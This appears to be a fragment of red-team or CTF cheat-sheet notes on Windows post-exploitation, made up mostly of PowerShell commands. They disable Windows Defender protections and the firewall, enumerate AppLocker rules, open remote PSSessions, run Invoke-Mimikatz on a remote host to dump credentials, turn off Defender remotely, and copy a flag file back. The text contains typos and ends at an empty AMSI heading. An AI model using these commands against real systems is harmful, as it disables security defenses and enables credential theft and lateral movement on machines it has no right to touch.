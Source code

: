 or

```
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend

can add

-DisableRea $true
```

### Firewall

```
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

### Applocker

```
Get-AppLockerPolicy -Xml -Local
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleColletions
```

### PSSession

**make a new session**

```
$sess = New-PSSession -ComputerName xxx.local
```

**run commands**

```
Invoke-Command -ScriptBlock {dir} -Session $sess
```

**run scripts**

```
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true} -Session $sess
Invoke-Command -FilePath "C:\Invoke-Mimikatz.ps1" -session $sess
```

**join session**

```
Enter-PSSession $sess
```


**copy files to session**
```
Copy-Item -Path C:\flag.txt -Destination 'C:\Users\Public\Music\flag.txt' -FromSession $sess
```

### AMSI
